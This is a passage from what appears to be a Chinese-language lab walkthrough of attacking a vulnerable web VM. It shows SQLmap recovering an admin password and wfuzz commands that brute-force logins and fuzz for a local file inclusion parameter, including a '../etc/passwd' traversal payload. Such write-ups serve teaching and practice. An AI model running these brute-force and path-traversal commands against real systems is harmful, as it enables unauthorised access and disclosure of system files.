 ![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEiam5nBWGTqf3l0QhlITf0Uzd0nfYQDGovNPs5xgtSnpmUZJyxnJzGDA/640?wx_fmt=jpeg)

这里 SQLmap 直接帮我得到 admin 的密码明文（transorbital1）

```
管理员账号：admin
管理员密码：transorbital1
```

附在线破解网站：https://hashes.com/en/decrypt/hash

我们将所有的账号，密码进行整理, 分别整理到 username,password(这里需要注意的是，只要管理员 的密码是需要解密的，其他用户的密码是明文)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE7xUMic2yzJzQKQqvB6SWFUG6Qa9Bprm8yx2U2t8w4l3dWjbfmp0jl5g/640?wx_fmt=png)

用 wfuzz 进行批量登陆查看页面反应，只有管理员的账号是 302 （ps：意料之中)

```
‐c:带颜色输出 ‐d:post参数 ‐z:payload ‐m:模式 zip迭代 字典和占位符一一对应进行遍历
wfuzz ‐c ‐z file,username ‐z file,password ‐m zip ‐d 'username=FUZZ&password=FUZ2Z' http://192.168.56.112/manage.php
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE1SLjUca5GxqphGybh5zZsKkVicQ8qZibNPUzicz9HXrU89AibCCKgCJp9w/640?wx_fmt=jpeg)

然后我们用管理账号进行登陆

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEuzon98cxmBKPBODfhpAxOINqTmVv6KFcX6nOv5o0bfRZM0KuaxPD4w/640?wx_fmt=jpeg)

可以看到页面下面出现 File does not exist 的提示，感觉很有可能就是 LFI（本地文件包含）

但是此时我们并不知道参数是多少，这里同样用 wfuzz 尝试进行遍历（注意这里用把登陆之后的 cookies 也要写上，否则网页会提示你要登陆）

查看 cookies 的话可以浏览器直接查看，也可以让 wfuzz 把请求发给 burp 进行查看

```
#‐p:添加代理
wfuzz ‐p 127.0.0.1:8080:HTTP
```

字典地址：https://github.com/danielmiessler/SecLists

```
‐b:cookies ‐hw:隐藏指定字节数的结果 ‐w 字典文件
wfuzz ‐‐hw 100 ‐b 'PHPSESSID=oshc5jht0a15efnue128kdnn9n' ‐c ‐w 
/usr/share/SecLists/Discovery/Web‐Content/burp‐parameter‐names.txt 
http://192.168.56.112/manage.php?FUZZ=index.php

wfuzz ‐‐hw 100 ‐b 'PHPSESSID=oshc5jht0a15efnue128kdnn9n' ‐c ‐w 
/usr/share/SecLists/Discovery/Web‐Content/burp‐parameter‐names.txt 
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwERn6RfOHTVoHXTtUQWcCmIfx4CBibk7JA9pQuG86XIjdVpQicV62aKVVQ/640?wx_fmt=png)

这里我们就找到参数 file

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEVxkWlukb6csRXl9xNbkr6PG57QvTFpWFdibjMRYFUUtj2QnrlR9Cd5w/640?wx_fmt=jpeg)

